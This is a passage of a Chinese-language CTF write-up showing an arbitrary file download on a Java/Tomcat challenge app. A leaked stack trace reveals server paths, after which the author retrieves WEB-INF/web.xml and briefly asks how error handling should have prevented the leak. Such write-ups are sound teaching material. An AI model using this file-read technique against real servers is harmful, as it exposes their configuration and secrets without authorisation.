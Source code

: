 ```java
send_post_request(url, headers, data)
```

## 4.2 请求切换

![image.png](https://res.craft.do/user/full/3cf94341-028f-a488-10df-d065aa1370fc/doc/d3036717-b075-fe5b-4aff-239f3b13366f/ab9b6ade-2b0f-43bc-8c9e-9897fe37ffaf)

修改请求的文件是`web.xml`

虽然502  error

![image.png](https://res.craft.do/user/full/3cf94341-028f-a488-10df-d065aa1370fc/doc/d3036717-b075-fe5b-4aff-239f3b13366f/4caaf87b-dcf9-49f6-811f-0eeede7e1486)

还有一句`Apache Tomcat/8.5.24`

**获取到的：**

1. `usr/local`
2. 调用链

```javascript
java.io.FileNotFoundException:

##47;usr##47;local##47;tomcat##47;webapps##47;ROOT##47;web.xml (No such file or directory)

java.io.FileInputStream.open(Native Method)
java.io.FileInputStream.open(FileInputStream.java:195)

java.io.FileInputStream.<init>(FileInputStream.java:138)
java.io.FileInputStream.<init>(FileInputStream.java:93)

com.wm.ctf.DownloadController.doPost(DownloadController.java:24)

javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
javax.servlet.http.HttpServlet.service(HttpServlet.java:742)

org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
```

- 这算是什么级别的信息泄露？
   - 错误处理不当？
      - 如果是，如何正确处理？
        - 或许是不要输出原生java的报错

## 4.3 修改正确路径

![image.png](https://res.craft.do/user/full/3cf94341-028f-a488-10df-d065aa1370fc/doc/d3036717-b075-fe5b-4aff-239f3b13366f/0d50827c-4ec3-4be1-abd5-5034311c1f5a)

相应的响应内容：

```javascript
HTTP/1.1 200 
Server: openresty
Date: Wed, 27 Nov 2024 02:15:12 GMT
Content-Type: application/xml
Connection: close
Vary: Accept-Encoding
Content-Disposition: attachment;filename=WEB-INF/web.xml
Cache-Control: no-cache
Content-Length: 1562

<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
```
